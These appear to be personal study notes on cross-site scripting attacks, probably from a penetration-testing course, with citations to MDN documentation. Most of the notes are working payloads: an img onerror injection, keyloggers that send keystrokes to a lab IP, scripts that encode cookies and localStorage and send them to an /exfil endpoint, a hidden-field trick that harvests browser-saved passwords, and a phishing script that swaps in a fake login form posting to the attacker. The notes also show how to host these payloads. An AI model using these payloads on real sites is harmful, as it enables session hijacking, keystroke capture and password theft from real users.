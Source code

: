 #### Javascript method

=====
function processData(data) {
    data.items.forEach(item => {
      console.log(item)
    });
  }

let foo = {
    items: [
      "Hello",
      "Zdravo",
      "Hola"
    ]
  }

processData(foo)
=====

(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Functions ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

type "allow pasting" in firefox web console.

====
let inputs = document.getElementsByTagName("input") 

for (let input of inputs){
    console.log(input.value)
}

====

#### key logging

====
function logKey(event){
	console.log(event.key);
	fetch("http://192.168.49.51/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
====

1
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/location ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/Events ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise ↩︎

7
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document/keydown_event ↩︎

In case of innerHTML script tag does not get executed. use img tag.
<img src=x onerror=alert(0)>

https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML ↩︎

====

<script src="http://<KALI_IP>/xss.js"></script>

echo "alert(1)" > xss.js

Host xss.js on kali

====
##### Encoded Cookie
nano xss.js
cat xss.js
----
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
----
python3 -m http.server 80

<script src="http://192.168.49.129/xss.js"></script>

<img src=x onerror=fetch("http://192.168.49.129/exfil?data="+encodeURIComponent(document.cookie))>



##### Encoded Local Storage
----

let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)

----

<script src=http://192.168.49.57/xss.js></script>

<img src=x onerror=fetch("http://192.168.49.57/exfil?data="+encodeURIComponent(JSON.stringify(localStorage)))>


#### Keylogging

-----

>>> cat xss.js

function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

-----

<script src=http://192.168.49.57/xss.js></script>

#### Stealing saved passwords

----

    let body = document.getElementsByTagName("body")[0]
  
    var u = document.createElement("input");
    u.type = "text";
    u.style.position = "fixed";
    //u.style.opacity = "0";
  
    var p = document.createElement("input");
    p.type = "password";
    p.style.position = "fixed";
    //p.style.opacity = "0";
 
    body.append(u)
    body.append(p)
 
    setTimeout(function(){ 
            fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
     }, 5000);


----

<script src=http://192.168.49.57/xss.js></script>

#### Phishing Users

----

fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))

----

 https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions ↩︎
 
 >>>> cat phishing.js
 
 ---
 document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>' 
 ---
 
 >>>> cat login.html
 
 ---
 <form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>
 ---
 
Fetch only brings the content. But does not execute. so we are creating script element.
 
 <img src=x onerror="const script = document.createElement('script');script.src = 'http://192.168.49.57/phishing.js';script.async = true;document.body.appendChild(script);">
